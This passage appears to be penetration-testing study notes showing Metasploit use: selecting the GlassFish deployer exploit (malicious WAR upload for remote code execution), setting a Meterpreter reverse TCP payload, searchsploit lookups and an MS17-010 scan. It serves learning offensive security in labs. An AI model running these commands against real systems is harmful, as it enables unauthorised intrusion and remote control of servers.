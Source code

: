 ```bash
search Sun GlassFish
```

- Check if a module will work on the specific version of the service

```bash
use exploit/multi/http/glassfish_deployer
info

# Description:
#   This module logs in to a GlassFish Server (Open Source or
#   Commercial) using various methods (such as authentication bypass,
#   default credentials, or user-supplied login), and deploys a
#   malicious war file in order to get remote code execution. It has
#   been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System
#   Application Server 9.x. Newer GlassFish versions do not allow remote
#   access (Secure Admin) by default, but is required for exploitation.
```

```bash
set payload windows/meterpreter/reverse_tcp
options
# check the LHOST, LPORT, APP_RPORT, RPORT, PAYLOAD options
```

- Use [searchsploit](https://www.exploit-db.com/searchsploit) tool from the Kali terminal, instead of `search MSF command`, by displaying only the Metasploit exploit modules

```bash
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"
```

![](.gitbook/assets/image-20230413194606641.png)

- Back in `msfconsole`, check if the server is vulnerable to MS17-010

```bash
search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
run
```

![](.gitbook/assets/image-20230413200558380.png)
